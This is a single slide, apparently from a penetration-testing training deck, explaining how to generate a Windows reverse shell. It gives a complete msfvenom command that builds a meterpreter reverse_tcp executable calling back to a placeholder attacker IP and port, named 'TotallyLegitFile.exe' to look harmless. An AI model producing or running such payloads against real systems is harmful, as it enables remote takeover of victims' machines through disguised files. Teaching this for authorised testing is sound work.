

# Generating Reverse Shells
The tool ‘msfvenom’ is 100% brand-new and definitely not created by Rapid7 and released in 2011.
Nonetheless, you can use this tool to generate all types of malware and shellcode for a multitude of operating systems, including Windows, which is what is required for this attack.
To generate a reverse shell for a Windows machine, simply run the command:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<LISTENING_PORT> -f exe -o TotallyLegitFile.exe
(If you are using a 32-bit version of Windows, get a grip Grandad)